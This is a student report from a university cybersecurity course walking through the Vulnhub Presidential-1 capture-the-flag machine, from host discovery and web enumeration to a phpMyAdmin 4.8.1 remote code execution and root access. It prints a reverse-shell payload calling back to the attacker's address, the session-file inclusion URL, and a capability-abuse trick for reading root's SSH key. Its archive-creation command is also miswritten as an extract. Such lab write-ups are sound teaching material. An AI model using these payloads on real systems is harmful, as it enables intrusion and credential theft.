 # Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. This phase involves using various techniques to actively or passively gather information that supports targeting. The information collected can include details about the victim's organization, infrastructure, and personnel. In this case, the objective is to identify the IP address of the target machine and the services running on it.

The shell command `netdiscover` automates the process of discovering live hosts on a network. It generates ARP requests for each IP address within a specified range. These requests are broadcasted to all devices on the local network, prompting devices with the corresponding IP addresses to respond with their MAC addresses. `netdiscover` collects these responses and records the IP and MAC address pairs, and it can also identify the device vendor. As a result, the output of `netdiscover` is a list of active hosts on the network.

From the vendor column in the obtained list, it is suggested that the potential target IP addresses could be 10.0.2.3 and 10.0.2.8. To determine which is the correct address, it is necessary to identify the active services on these addresses.

The `nmap` command is used to identify the services, open ports, and software versions on the machine at the indicated address. 

![Steps of recognition](images/recognition.png)  

The scan reveals that the machine with the IP address 10.0.2.8 is running a web service on port 80 using the HTTP protocol and a remote shell on port 2082 using the SSH protocol. This machine is the presidential VM.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the **`/etc/hosts`** file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The `gobuster` command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

![Steps of enumeration](images/enumeration.png)  

Four accessible files were detected during the enumeration phase:

1. **`/index.html`**: this is the main page of the web server, which has already been visited.
2. **`/about.html`**: this page contains placeholder text ("lorem ipsum") and does not provide any useful information.
3. **`/config.php.bak`**: this file appears to be a backup of the `config.php` file and likely contains important configuration information. As seen from the response to the `curl` command, it contains user credentials, which could be useful later.
4. **`/config.php`**: this file is an empty PHP file, offering no additional information.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (**`/dirbuster/wordlists/directory-list-2.3-medium.txt`**), a single subdomain was found: **datasafe.votenow.local**.

Navigating to the subdomain's web page reveals an access panel for "phpMyAdmin". By entering the previously obtained credentials, the login is successful. Once logged in, the interface allows direct interaction with a SQL database through the execution of queries. From this database, it is possible to retrieve the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella".

![Execution of Gobuster to obtain the subdomains and password cracking](images/subdomain_john_hash.png)

Browsing the page further, it is noted, as it is written, that the version of phpMyAdmin is obsolete, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows remote code execution. 

![Searchsploit response](images/searchsploit.png)

Detailed information on how to exploit the RCE vulnerability is provided in response to the following searchsploit command:

`searchsploit -x /php/webapps/50457.py`

The exact same exploit is presented [here](https://www.exploit-db.com/exploits/50457).

As a first approximation the exploit steps in sequence are:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query
4) accurately edit the URL and execute the payload.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by inspecting the browser's developer tools to find the value of the cookie named phpMyAdmin.

Once authenticated it is possible to execute SQL queries on the databases present, so the point 3 can be easily done. The query must contain a php script within backticks, but in this stage it would not been executed. Under normal circumstances, the web application does not interpret or execute code placed within backticks in the SQL queries. However, by meticulously crafting the URL, it becomes possible to execute the script. This script embedded in the SQL query is the payload.

The URL must be edited to the following format:

`http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieVal}`

replacing `{cookieVal}` with the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, the embedded script within the query is executed, establishing a reverse shell on the target machine.

The IP address **`10.0.2.4`** mentioned in the query is the Kali Linux machine's IP where the listener is active on port 443.

![Exploitation of the vulnerability](images/sql_vuln.png)

Following payload execution, a successful reverse shell is established. Authentication is accomplished using the previously obtained admin user credentials.

To acquire a more functional interactive shell compared to the initially obtained limited one, the following Python command is employed:
`python -c "import pty; pty.spawn('/bin/bash')"`

By utilizing the `ls` command to list files and directories, it becomes evident there is a direct access to the flag of **`user.txt`** and the file **`read.txt`**.

![Reverse shell connection and authentication](images/reverse_shell.png)

## Privilege Escalation

The last steps concern scaling privileges in order to gain root access.

The next thing to do is use `getcap` command to list the available capabilities associated with files in the file system.  

It is noted that the tarS binary has '+ep' set. This setting grants the `cap_dac_read_search` capability, allowing tarS to read and search files in locations where it has DAC (Discretionary Access Control) permissions, without requiring full root privileges. Thus, tarS can compress files across the system without root access. Once compressed, files contents can be revealed by simply performing the decompression.

The **`/root/.ssh/`** directory contains an **`id_rsa`** file, which typically holds an RSA private key for SSH authentication.
By using tarS to compress and decompress **`id_rsa`**, become possible to view its contents.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called **`id_rsa.tar`** containing the **`id_rsa`** file present in the **`/root/.ssh/`** directory.

* `tar -xvf id_rsa.tar` : extracts files from the **`id_rsa.tar`** archive.

After the execution of these two commands, the **`id_rsa`** file can be read.

![Obtaining the RSA private key](images/rsa_key.png)

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, the final-flag can be obtained and this completes the challenge.

![Root access](images/ssh_&_final_flag.png)
